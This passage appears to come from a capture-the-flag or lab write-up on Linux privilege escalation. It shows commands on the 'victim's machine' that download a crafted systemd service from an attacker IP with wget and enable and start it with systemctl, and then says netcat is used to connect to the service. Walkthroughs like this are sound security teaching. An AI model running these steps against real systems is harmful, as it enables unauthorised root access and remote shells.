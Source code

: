   ![solution](./resources/Task_4_1.png)

  

  > *On the victim´s machine, we need to download the service created and execute it with systemctl.*
  >
  > *So, in the `/tmp` dir.*

  ~~~bash
  $ cd /tmp
  $ mkdir wget
  $ cd wget
  $ wget 10.9.90.233:8000/pivesc.service
  --2020-10-10 12:16:45--  http://10.9.90.233:8000/pivesc.service
  Connecting to 10.9.90.233:8000... connected.
  HTTP request sent, awaiting response... 200 OK
  Length: 170 [application/octet-stream]
  Saving to: 'pivesc.service'
  
       0K                                                       100% 4.25M=0s
  
  2020-10-10 12:16:46 (4.25 MB/s) - 'pivesc.service' saved [170/170]
  
  $ ls  
  pivesc.service
  $ /bin/systemctl enable /tmp/wget/pivesc.service
  Created symlink from /etc/systemd/system/multi-user.target.wants/pivesc.service to /tmp/wget/pivesc.service.
  Created symlink from /etc/systemd/system/pivesc.service to /tmp/wget/pivesc.service.
  $ /bin/systemctl start pivesc
  ~~~

  > Finally in our machine, using `netcat` to connect to the service started. 
